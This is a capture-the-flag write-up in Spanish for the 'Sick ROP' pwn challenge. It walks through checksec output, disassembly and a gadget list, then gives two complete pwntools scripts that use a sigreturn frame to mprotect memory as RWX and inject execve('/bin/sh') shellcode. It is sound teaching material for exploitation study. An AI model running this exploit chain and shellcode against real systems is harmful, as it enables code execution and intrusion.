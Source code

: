 ```yaml
---
title: Sick ROP
date: 2024-08-11
tier: easy
author: naibu3
---
```

#pwn #writeup 
# Reconocimiento

Se nos da un binario, al que comenzamos lanzándole [[checksec]]:

```checksec
Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Vemos que tiene el [[NX bit]], además, por el nombre podemos intuir que aplicaremos [[ROP - Return Oriented Programming]].

Si descompilamos, veremos que existe una función *vuln* que lee y escribe constantemente:

> **VULN**
```asm
0x000000000040102e <+0>:	push   rbp
0x000000000040102f <+1>:	mov    rbp,rsp
0x0000000000401032 <+4>:	sub    rsp,0x20
0x0000000000401036 <+8>:	mov    r10,rsp
0x0000000000401039 <+11>:	push   0x300
0x000000000040103e <+16>:	push   r10
0x0000000000401040 <+18>:	call   0x401000 <read>
0x0000000000401045 <+23>:	push   rax
0x0000000000401046 <+24>:	push   r10
0x0000000000401048 <+26>:	call   0x401017 <write>
0x000000000040104d <+31>:	leave
0x000000000040104e <+32>:	ret
```

> **READ**
```asm
0x0000000000401000 <+0>:	mov    eax,0x0
0x0000000000401005 <+5>:	mov    edi,0x0
0x000000000040100a <+10>:	mov    rsi,QWORD PTR [rsp+0x8]
0x000000000040100f <+15>:	mov    rdx,QWORD PTR [rsp+0x10]
0x0000000000401014 <+20>:	syscall
0x0000000000401016 <+22>:	ret
```

> **WRITE**
```asm
0x0000000000401017 <+0>:	mov    eax,0x1
0x000000000040101c <+5>:	mov    edi,0x1
0x0000000000401021 <+10>:	mov    rsi,QWORD PTR [rsp+0x8]
0x0000000000401026 <+15>:	mov    rdx,QWORD PTR [rsp+0x10]
0x000000000040102b <+20>:	syscall
0x000000000040102d <+22>:	ret
```

Antes de *read*, vemos que se reserva *0x20*, sin embargo, al almacenar, se almacena *0x300*. Esto nos indica una vulnerabilidad de tipo [[Buffer overflow]]. Podemos calcular el *offset*, que sería 32 (0x20 en decimal) más 8 bytes ya que rbp se está almacenando también en el stack, lo que da un total de **40**.

En este punto podemos mirar con [[ropper]] los gadgets que tenemos disponibles:

```asm
0x0000000000401009: add byte ptr [rax - 0x75], cl; je 0x1032; or byte ptr [rax - 0x75], cl; push rsp; and al, 0x10; syscall; 
0x0000000000401020: add byte ptr [rax - 0x75], cl; je 0x1049; or byte ptr [rax - 0x75], cl; push rsp; and al, 0x10; syscall; 
0x0000000000401008: add byte ptr [rax], al; mov rsi, qword ptr [rsp + 8]; mov rdx, qword ptr [rsp + 0x10]; syscall; 
0x0000000000401012: and al, 0x10; syscall; 
0x0000000000401012: and al, 0x10; syscall; ret; 
0x000000000040100d: and al, 8; mov rdx, qword ptr [rsp + 0x10]; syscall; 
0x000000000040100d: and al, 8; mov rdx, qword ptr [rsp + 0x10]; syscall; ret; 
0x0000000000401040: call 0x1000; push rax; push r10; call 0x1017; leave; ret; 
0x0000000000401048: call 0x1017; leave; ret; 
0x0000000000401044: call qword ptr [rax + 0x41]; 
0x0000000000401044: call qword ptr [rax + 0x41]; push rdx; call 0x1017; leave; ret; 
0x000000000040104c: dec ecx; ret; 
0x000000000040100c: je 0x1032; or byte ptr [rax - 0x75], cl; push rsp; and al, 0x10; syscall; 
0x000000000040100c: je 0x1032; or byte ptr [rax - 0x75], cl; push rsp; and al, 0x10; syscall; ret; 
0x0000000000401023: je 0x1049; or byte ptr [rax - 0x75], cl; push rsp; and al, 0x10; syscall; 
0x0000000000401023: je 0x1049; or byte ptr [rax - 0x75], cl; push rsp; and al, 0x10; syscall; ret; 
0x0000000000401041: mov ebx, 0x50ffffff; push r10; call 0x1017; leave; ret; 
0x0000000000401010: mov edx, dword ptr [rsp + 0x10]; syscall; 
0x0000000000401010: mov edx, dword ptr [rsp + 0x10]; syscall; ret; 
0x000000000040100b: mov esi, dword ptr [rsp + 8]; mov rdx, qword ptr [rsp + 0x10]; syscall; 
0x000000000040100b: mov esi, dword ptr [rsp + 8]; mov rdx, qword ptr [rsp + 0x10]; syscall; ret; 
0x000000000040100f: mov rdx, qword ptr [rsp + 0x10]; syscall; 
0x000000000040100f: mov rdx, qword ptr [rsp + 0x10]; syscall; ret; 
0x000000000040100a: mov rsi, qword ptr [rsp + 8]; mov rdx, qword ptr [rsp + 0x10]; syscall; 
0x000000000040100a: mov rsi, qword ptr [rsp + 8]; mov rdx, qword ptr [rsp + 0x10]; syscall; ret; 
0x000000000040100e: or byte ptr [rax - 0x75], cl; push rsp; and al, 0x10; syscall; 
0x000000000040100e: or byte ptr [rax - 0x75], cl; push rsp; and al, 0x10; syscall; ret; 
0x0000000000401046: push r10; call 0x1017; leave; ret; 
0x0000000000401045: push rax; push r10; call 0x1017; leave; ret; 
0x0000000000401047: push rdx; call 0x1017; leave; ret; 
0x0000000000401011: push rsp; and al, 0x10; syscall; 
0x0000000000401011: push rsp; and al, 0x10; syscall; ret; 
0x0000000000401049: retf 0xffff; dec ecx; ret; 
0x000000000040104d: leave; ret; 
0x0000000000401016: ret; 
0x0000000000401014: syscall; 
0x0000000000401014: syscall; ret;
```

# Explotación

No son muchos ya que el binario es pequeño. Por suerte, tenemos *`syscall`*, por lo que podemos probar una técnica llamada [[SROP]].

Por desgracia, para esta técnica necesitaríamos el gadget `mov eax, 0xf`, sin embargo, hay una forma de hacerlo mediante la llamada a *read*. Con el siguiente script, lograremos cambiar de localización el stack, a una zona con permisos de ejecución, donde podremos introducir un [[Shellcodes|shellcode]]:

```python
#!/usr/bin/python3
# Author : trustie_rity
  
from pwn import *
  
elf = ELF('./sick_rop')
if args.R:
	p = remote("*.*.*.*",30479)
else:
	p = elf.process()
  
context.clear(arch='amd64') 
context.log_level = 'debug'
  
syscall_ret = 0x401014 
writable = 0x400000
vuln = elf.sym.vuln
  
payload = b'A'*40    # to our offset
payload += p64(vuln)
payload += p64(syscall_ret)
  
frame = SigreturnFrame(kernel="amd64")
frame.rax = 0xa      # syscall for mprotect()
frame.rdi = writable
frame.rsi = 0x4000
frame.rdx = 0x7      # rwx (read ,write , execute)
frame.rsp = 0x4010d8 # this will be our new stack kind of ie addr 0x400...
frame.rip = syscall_ret

payload += bytes(frame) # fake sigreturnframe
  
# sending
p.sendline(payload)
p.recv()
  
payload = b'B'* (0xf - 1 ) # sigret 15 syscall
p.sendline(payload)
p.recv()
```

Una vez hecho esto, solo falta volver a llamar a *vuln*, pero esta vez tan solo debemos pasar un [[Crafting shellcodes|shellcode]], seguido de la dirección donde *read* almacena el input.

El script sería:

```python
#!/usr/bin/python3  
# Author : trustie_rity  
  
from pwn import *  
  
elf = ELF('./sick_rop')  
if args.R:  
 p = remote("*.*.*.*",30479)  
else:  
 p = elf.process()  
context.clear(arch='amd64')  
context.log_level = 'debug'  
  
syscall_ret = 0x401014  
read = 0x401000  
writable = 0x400000  
new_ret = 0x400018  
vuln = elf.sym.vuln  
  
payload = b'A'*40    # to our offset  
payload += p64(vuln)  
payload += p64(syscall_ret)  
  
frame = SigreturnFrame(kernel="amd64")  
frame.rax = 0xa     # syscall for mprotect()  
frame.rdi = writable  
frame.rsi = 0x4000  
frame.rdx = 0x7    # rwx (read ,write , execute)  
frame.rsp = 0x4010d8 # this will be our new stack kind of ie addr 0x400...  
frame.rip = syscall_ret  
  
payload += bytes(frame) # fake sigreturnframe  
  
# sending  
p.sendline(payload)  
p.recv()  
  
payload = b'B'* (0xf - 1 ) # sigret 15 syscall  
p.sendline(payload)  
p.recv()  
  
# shellcode  
shell_code = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"  
payload = shell_code.ljust(40, b'A')  
payload += p64(0x4010b8)  
log.info('[*] Sending second stage payload with {} bytes ...'.format(len(payload)))  
p.sendline(payload)  
  
p.interactive()
```